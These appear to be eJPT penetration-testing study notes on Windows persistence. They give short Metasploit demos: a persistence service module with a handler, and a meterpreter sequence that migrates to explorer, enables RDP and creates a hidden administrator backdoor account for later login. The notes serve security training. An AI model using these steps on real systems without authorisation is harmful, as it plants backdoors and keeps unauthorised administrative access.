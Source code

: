 # 55 Windows Persistence

# Persistence via Services

## Establishing Persistence on Windows

- Persistence consists of techniques that adversaries use to keep access to systems across restarts, changed credentials, and other interruptions that could cut off their access. Techniques used for persistence include any access, action, or configuration changes that let them maintain their foothold on systems, such as replacing or hijacking legitimate code or adding startup code. - MITRE ATT&CK
- Gaining an initial foothold is not enough, you need to setup and maintain persistent access to your targets.

### DEMO

```shell
# Get a session, then
msf6: exploit(windows/local/persistence_service)

# Try the persistence
msf: exploit(multi/handler)
# Set the corrent payload! (the previous used)
```


# Persistence via RDP

### DEMO

```shell
# Creating backdoor new user account

# Migrate to process "explorer"
meterpreter: pgrep explorer
meterpreter: migrate <explorer-id>

# Create new user
# Getgui command check RDP, if disabled it will enable it 
# Also hide the user from the Windows login screen
# Add the user to RDP service and Administrator group
meterpreter: run getgui -e -u <user> -p <password> # Creating account 

# Logon via RDP with the new legitimate user
xfreerdp /u:<user> /p:<password> /v:<target-ip>
```


#cybersecurity #eJPT 